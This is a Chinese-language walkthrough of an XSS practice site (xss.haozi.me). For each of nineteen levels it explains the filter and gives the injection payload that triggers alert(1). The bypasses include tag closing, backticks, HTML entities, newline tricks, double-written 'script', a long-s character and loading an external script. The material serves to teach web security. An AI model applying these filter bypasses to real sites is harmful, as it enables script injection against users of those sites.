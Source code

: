 简单的XSS弹窗练习，通过输入使弹窗显示“1”即可。  
URL:https://xss.haozi.me/  

# 0x00
思路：无任何过滤，直接通过alert弹窗，script标签闭合。  
payload:

```
<script>alert(1)</script>
```

# 0x01
思路：无任何过滤，通过textarea标签包含输入内容，所以先闭合textarea标签即可。  
payload:

```
</textarea><script>alert(1)</script>
```

# 0x02
思路：将输入内容包含到了value值中，所以先闭合value值和input标签即可。  
payload:

```
"><script>alert(1)</script>
```

# 0x03
思路：服务器端将“(”和“)”过滤，无法直接通过alert(1)实现，通过反括号“`”即可。  
payload:

```
<script>alert`1`</script>
```

# 0x04
思路：服务器端将“(”、“)”和“`”过滤，此时考虑将括号转义，通过<svg>标签执行html转义字符。  
payload:

```
<svg><script>alert&#x28;1&#x29;</script>
```

# 0x05
思路：服务器端将“-->”过滤，“<\!--”可以通过“-->”和“--!>”两种方式闭合。  
payload:

```
--!><script>alert(1)</script>
```

# 0x06
思路：服务器端将以auto、on开头，=为结尾的属性过滤，通过换行绕过过滤。  
payload:

```
type="image" src onerror
="alert(1)"
```

# 0x07
思路：服务器端将<>内的内容过滤，通过少输入一个>绕过，不影响运行。 
payload:

```
<body onload="alert(1)"
```


# 0x08
思路：服务器端将<>内的内容过滤，通过换行绕过即可。  
payload:

```
</style
><script>alert(1)</script>
```

# 0x09
思路：根据输入要求先输入https://www.segmentfault.com进行匹配，然后闭合script标签即可。  
payload:

```
https://www.segmentfault.com"></script><script>alert(1)</script>
```

# 0x0A
思路：服务器端已经对一些符号进行了过滤，根据输入要求先输入https://www.segmentfault.com进行匹配，然后通过网址运行js脚本即可。  
payload:

```
https://www.segmentfault.com.haozi.me/j.js
```

# 0x0B
思路：服务器端将输入字符串全部转成了大写，但html标签和域名不区分大小写，通过网址运行js脚本即可。
payload:

```
<script src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

# 0x0C
思路：服务器端将输入字符串全部转成了大写，同时对script字符进行了一次过滤，通过双写script在过滤一遍后保留其中一个即可。  
payload:

```
<scscriptript src="https://www.segmentfault.com.haozi.me/j.js"></scrscriptipt>
```

# 0x0D
思路：输入内容包含在script标签的注释中，通过换行绕开注释，在结尾输入-->注释掉后括号。  
payload:

```

alert(1)
-->
```

# 0x0E
思路：输入字符<后的字母都会被转义，通过古英文中s的写法“ſ”可以绕过基于ascii码判断的字母转义，并通过外部url绕过字符串大写转义。  
payload:

```
<ſcript src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

# 0x0F
思路：表面上对输入的&,',",<,>,\和/字符进行了html转义，但实际上在解析过程中html解析先于js解析，转义工作无意义。先闭合引号和括号，再注释掉后面的内容即可。  
payload:

```
');alert(1)//
```

# 0x10
思路：无任何过滤。  
payload:

```
alert(1)
```

# 0x11
思路：虽然"被转义为\"，但输入一个后双引号正好可以把\闭合到引号中，再闭合括号，注释掉后面内容即可。  
payload:

```
"),alert(1)//
```

# 0x12
思路：闭合script标签重新构造即可。  
payload:

```
</script>
<script>alert(1)</script>
```

# 总结
整体而言题目偏简单，难度并非逐题提高，而且源码已经放出可以直接分析，可供新手练习，熟悉JavaScript标签。未来可以尝试每道题提出更多解法。
